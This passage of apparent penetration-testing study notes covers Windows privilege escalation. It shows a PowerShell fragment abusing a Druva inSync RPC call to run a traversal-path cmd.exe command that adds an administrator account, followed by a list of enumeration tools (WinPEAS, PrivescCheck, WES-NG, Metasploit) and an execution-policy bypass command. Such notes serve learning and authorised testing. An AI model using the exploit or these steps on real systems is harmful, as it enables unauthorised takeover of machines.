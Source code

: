 ```
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");  
$length = [System.BitConverter]::GetBytes($command.Length);  
  
$s.Send($header)  
$s.Send($rpcType)  
$s.Send($length)  
$s.Send($command)  

```

1. send a "hello" header to initiate a session with the software
2. request access to a specific (vulnerable) RPC call from the software
3. send the length of the of the incoming command (but calculated after the command is generated locally)
4. send the command, $cmd, which creates an account and adds it to the admin group
5. run a cmd.exe as Administrator and input new account creds, get Admin shell

# Tools of the Trade
### WinPEAS
[https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)  
gives A LOT of info, best to output to a file `winpeas.exe > winpeas_text.txt`

### PrivescCheck
[https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck) 
somewhat more lightweight alternative, as a PowerShell script. May need to run `Set-ExecutionPolicy Bypass -Scope process -Force`

### WES-NG (Windows Exploit Suggester - Next Gen)
[https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng)  
runs on local machine when provided a `systeminfo > systeminfo.txt` from the target machine
Be sure to run `wes.py --update` to get the latest vuln info

### Metasploit
if a meterpreter shell has already been establish on the target, `run multi/recon/local_exploit_suggester` will give priv esc paths